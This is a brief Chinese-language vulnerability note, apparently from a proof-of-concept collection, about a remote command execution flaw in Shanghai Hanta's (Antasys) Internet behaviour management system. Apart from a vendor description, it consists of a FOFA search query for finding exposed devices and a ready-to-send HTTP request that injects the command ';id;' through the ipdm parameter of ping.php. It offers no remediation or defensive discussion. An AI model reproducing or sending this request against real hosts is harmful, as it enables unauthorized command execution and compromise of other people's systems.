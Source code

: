 # 上海汉塔网络科技有限公司上网行为管理系统存在远程命令执行漏洞
上海汉塔网络科技有限公司多年来一直专注于网络应用的软件开发，在网络安全、网络协议分析、网络数据流控制等领域有着丰富的经验和雄厚的技术实力。同时，公司积累了丰富的数据通信及网络安全产品研发、生产、销售及服务经验，是行业领先的新一代信息安全产品供应商，目前拥有上网行为管理、IPSecVPN、SSLVPN、流量控制等多款产品。上海汉塔网络科技有限公司上网行为管理系统存在远程命令执行漏洞

## fofa
```javascript
body="Antasys"
```

## poc
```javascript
GET /dgn/dgn_tools/ping.php?ipdm=127.0.0.1;id;&ps=64&cnt=1 HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=515a7b9608e8a01fd03889ccf28bf590
Upgrade-Insecure-Requests: 1
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1734321123435-1f8a2319-92ab-4659-80cf-cf44cef5073a.png)

